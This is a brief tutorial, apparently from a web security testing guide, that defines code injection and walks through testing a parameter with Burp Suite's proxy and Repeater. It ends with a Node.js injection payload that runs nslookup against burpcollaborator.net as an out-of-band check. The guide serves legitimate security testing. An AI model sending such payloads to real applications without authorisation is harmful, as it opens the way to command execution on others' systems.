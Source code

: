 # Code Injection

The term "code injection" applies to a variety of attacks that include inserting code that is then interpreted/executed by the application. This form of attack takes advantage of poor data handling. These attacks are usually made possible by a lack of proper input/output data validation.

## Burp Suite

Burp Suite is a software developed in Java by PortSwigger, to perform security tests on web applications. Burp Suite is divided into several components such has: Burp Proxy, Burp Spider, Burp Scanner, Burp Intruder, Burp Repeater. etc.
To download this tool the user needs to access https://portswigger.net/burp/communitydownload and download the program to their respective system.


To begin the testing with this tool the tester needs to config their browser's proxy configuration to "localhost" in port 8080.


To test the SUT the tester needs:

* Open the burp suite, go to the "Proxy" tab, click on "Intercept" and press the button "Intercept is off";
* Go to the browser and open the web page to be tested;

* Return to the "Proxy" tab, select intersect and then click on "Intercept is on";

* Access the URL with the parameter you wish to test;

* The request will be captured by the proxy "Intercept" tab;

* Right click anywhere on the request and select "Send to Repeater";

* Select the "Repeater" tab;

* Click the "Go" button;

* In the "Response" Panel you can observe the results of the request;

* To perform the test a variable to add a command should be selected, usually these variables are represented by:
```HTML
    [variable name] = [Path]
```

* In the Request Tab it is possible to alter this variable with a known shell command, for examples nslookup:

``` bash
    [variable name] = require('child_process').exec("nslookup+burpcollaborator.net')
```

If successful, the command will cause a connection with Burp server. 
